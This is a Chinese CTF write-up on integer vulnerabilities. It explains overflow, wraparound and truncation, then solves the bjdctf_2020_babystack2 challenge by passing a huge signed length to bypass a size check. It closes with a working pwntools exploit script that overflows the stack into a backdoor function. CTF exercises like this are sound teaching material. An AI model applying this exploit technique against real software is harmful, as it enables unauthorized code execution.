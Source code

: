 <a name="2485c08b"></a>
# 概述：

 前面的文章介绍了基础的栈溢出，其实还有进阶的栈溢出，但是我累了，进阶的栈溢出留着以后写。先来学习整数安全。整数安全漏洞在ctf中还是很常见的，但是整数安全漏洞并不能直接getshell，通常配合栈溢出或堆溢出来利用。<br />计算机中的整数分为有符号整数和无符号整数两种，通常保存在一个固定长度的内存空间中，他能存储的最大值和最小值都是固定的。<br />整数的基本数据类型分为短整型 (short)，整型 (int)，长整型 (long)，这三个数据类型还分为有符号和无符号，每种数据类型都有各自的大小范围，(因为数据类型的大小范围是编译器决定的，所以之后所述都默认是 64 位下使用 gcc-5.4)，如下所示:<br />![](https://img-blog.csdnimg.cn/0643c4a027144058b96e57f5e6b5ed2e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_18,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Y4PtG&originHeight=479&originWidth=678&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />关于整数的异常情况主要有三种：

1. 溢出：只有有符号数才会发生溢出。有符号数的最高位表示符号，在两正或两负相加时，有可能改变符号位的值，产生溢出。溢出标志OF可检测有符号数的溢出。

![](https://img-blog.csdnimg.cn/cc59763d69454790b9dbdd3211add04c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_19,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=mbZQi&originHeight=471&originWidth=732&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />2. 回绕：无符号数0-1时会变成最大的数，类似于时钟的时间，如1字节的无符号数会变成255，而255+1会变成最小数0。进位标志CF可检测无符号数的回绕。<br />![](https://img-blog.csdnimg.cn/e642ee1811534a489f0f7118a399af26.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_16,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=wC4pm&originHeight=437&originWidth=614&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />3. 截断：将一个较大宽度的数存入一个宽度较小的数中，高位发生截断。<br />![](https://img-blog.csdnimg.cn/e394809ab9784b64bc5d4ad443775383.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_15,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Vm8re&originHeight=356&originWidth=577&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

<a name="5a16a45a"></a>
# 溢出例子：

BUUCTF：bjdctf_2020_babystack2

<a name="a970b03c"></a>
## checksec分析：

![](https://img-blog.csdnimg.cn/2331dd54b8cf491d867c4837c2704e39.png#crop=0&crop=0&crop=1&crop=1&id=YFc1R&originHeight=184&originWidth=757&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />64位程序，没有开启canary，没有开启PIE。

<a name="af1d1a74"></a>
## ida pro分析：

![](https://img-blog.csdnimg.cn/c898ebe99de04d1e85f0f5efd75c61ad.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_18,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ovg1H&originHeight=552&originWidth=667&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

![](https://img-blog.csdnimg.cn/0e0e6e8544a94f64866643b27e889b5f.png#crop=0&crop=0&crop=1&crop=1&id=cu4cp&originHeight=159&originWidth=341&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />存在后门函数，程序的大致意思是输入一个有符号整数nbytes，然后判断大小，如果大于10，则程序退出，如果小于10则可以输入nbytes大小的name数据。

<a name="1a7f5c22"></a>
## 利用思路：

可以通过栈溢出来跳转到后门函数，但是我们必须满足一个条件，我们输入的nbytes的值小于10，并且输入nbytes字节的name数据时可以发生溢出，但是发生溢出的字节要求是0x18。<br />但是我们首先输入nbytes的时候，他的数据类型是一个有符号整数，当我们输入nbytes大小的字符时，它变成了无符号整型，也就是说，当我们输入一个特别大的数据时，比如2147483649，此时寄存器里的值为0x80000001=>2147483649，当nbytes是一个有符号整数时，他是一个负数，if语句会判断出nbytes小于10，然后我们就可以绕过if判断，当我们输入name时，nbytes是一个无符号整数，即此时它的值为0x80000001=>2147483649，那么我们就可以输入0x80000001=>2147483649字节的数据，满足了溢出的条件。

<a name="a3e6be45"></a>
## exp：

```python
#!/usr/bin/python2
#coding=utf-8
from pwn import *


context(os = "linux", arch = "amd64", log_level= "debug")
p = remote("node3.buuoj.cn", 29899)

backdoor = 0x400726
p.sendlineafter("length of your name:", "2147483649")
payload = "a" * 0x18 + p64(backdoor)
p.sendlineafter("name?", payload)
p.sendline("cat flag")

p.interactive()
```

<a name="8b59e775"></a>
# 回绕和截断例子在想了，等我想出来一定补上。
